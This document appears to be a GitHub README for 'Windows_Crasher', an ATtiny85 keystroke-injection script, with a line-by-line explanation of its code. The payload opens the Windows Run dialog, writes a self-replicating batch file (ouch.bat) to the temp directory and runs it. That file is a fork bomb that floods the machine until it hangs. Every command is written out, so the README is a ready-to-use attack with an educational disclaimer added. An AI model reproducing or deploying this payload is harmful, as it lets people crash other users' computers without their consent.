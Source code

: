 # Atiny85 Windows_Crasher Ducky Script

## Introduction
This code is a Ducky Script designed to execute a payload on a Windows computer using a Atiny85 device. The script uses the DigiKeyboard library to automate keyboard input and run a series of commands. Please note that this script is intended for educational and research purposes and should be used responsibly and ethically.

## Code Explanation
The code provided is written in Arduino-like language and uses the DigiKeyboard library. Here's a brief explanation of what the code does:

- `#include "DigiKeyboard.h"`: This line includes the DigiKeyboard library, which is essential for controlling the USB Rubber Ducky or similar devices.

- `void setup()`: This is the setup function where you configure the initial settings. It sets pin 1 as an output, which is typically used to control an LED on Model A USB Rubber Ducky devices.

- `void loop()`: The loop function contains the main script that the USB Rubber Ducky will execute repeatedly.

  - `DigiKeyboard.update();`: This line ensures that the DigiKeyboard is ready to send keypresses.

  - `DigiKeyboard.sendKeyStroke(0);`: A null keypress is sent, ensuring that there are no lingering key modifiers from previous inputs.

  - `DigiKeyboard.delay(3000);`: A delay of 3 seconds is introduced.

  - `DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);`: This line sends a key combination (Win + R) to open the "Run" dialog.

  - `DigiKeyboard.delay(100);`: A small delay of 100 milliseconds follows.

  - `DigiKeyboard.println("cmd /k mode con: cols=15 lines=1");`: This line types a command into the "Run" dialog to open a minimized command prompt window.

  - `DigiKeyboard.delay(500);`: A delay of 500 milliseconds is added.

  - `DigiKeyboard.println("(echo :ouch && echo start ouch.bat && echo goto ouch) > %temp%/ouch.bat");`: This command creates a payload in the temporary directory, named "ouch.bat."

  - `DigiKeyboard.delay(300);`: Another small delay.

  - `DigiKeyboard.println("cd %temp% && ouch.bat");`: This command navigates to the temporary directory and executes the "ouch.bat" payload.

  - `DigiKeyboard.delay(500);`: A delay of 500 milliseconds is included.

  - `digitalWrite(1, HIGH);`: This line turns on an LED if you're using a Model A USB Rubber Ducky.

  - `DigiKeyboard.delay(90000);`: The script waits for 90 seconds (this is the delay to give you time to unplug the device).

  - `digitalWrite(1, LOW);`: The LED is turned off.

  - `DigiKeyboard.delay(5000);`: A final delay of 5 seconds.

## Disclaimer
This code is for educational and research purposes only. Unauthorized or malicious use of such code or devices may be illegal and unethical. Ensure that you have the appropriate permissions and legal authorization before using this code. The author and contributors are not responsible for any misuse or illegal activities.

**USE AT YOUR OWN RISK**.
